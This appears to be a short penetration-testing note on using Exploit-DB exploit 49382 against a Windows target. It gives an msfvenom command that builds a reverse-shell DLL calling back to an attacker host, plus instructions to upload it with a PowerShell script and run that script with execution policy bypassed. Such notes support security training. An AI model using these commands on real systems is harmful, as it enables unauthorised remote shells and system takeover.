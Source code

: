 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

exploit 49382


Looking at the script we see the need to generate a reverse shell .dll payload. Then execute the .ps1 targeting the .dll.

```bash - kali
sudo msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=$KALI LPORT=445
```

Edit the .ps1 to target the location of the .dll.

![[Pasted image 20220404152727.png]]

Upload both, the dll and ps1 file to target.

```command prompt - windows
powershell.exe -ep bypass .\49382.ps1
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
